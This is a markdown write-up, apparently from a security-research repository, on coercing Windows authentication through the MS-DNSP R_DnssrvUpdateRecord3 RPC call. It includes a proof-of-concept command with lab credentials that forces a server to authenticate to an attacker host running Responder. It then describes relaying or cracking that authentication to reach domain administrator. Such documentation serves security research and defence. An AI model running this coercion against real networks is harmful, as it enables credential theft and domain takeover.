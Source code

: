 # MS-DNSP - Remote call to R_DnssrvUpdateRecord3 (opnum 10)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvUpdateRecord3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/12279f8c-ddaf-47b8-8905-91d7635cdfea)

+ **Function operation number**: `10`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvUpdateRecord3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/12279f8c-ddaf-47b8-8905-91d7635cdfea) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvUpdateRecord3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvUpdateRecord3(
   [in]                        handle_t              hBindingHandle,
   [in]                        DWORD                 dwClientVersion,
   [in]                        DWORD                 dwSettingFlags,
   [in, unique, string]        LPCWSTR               pwszServerName,
   [in, unique, string]        LPCSTR                pszZone,
   [in, unique, string]        LPCWSTR               pwszZoneScope,
   [in, string]                LPCSTR                pszNodeName,
   [in, unique]                PDNS_RPC_RECORD       pAddRecord,
   [in, unique]                PDNS_RPC_RECORD       pDeleteRecord
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvUpdateRecord3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/12279f8c-ddaf-47b8-8905-91d7635cdfea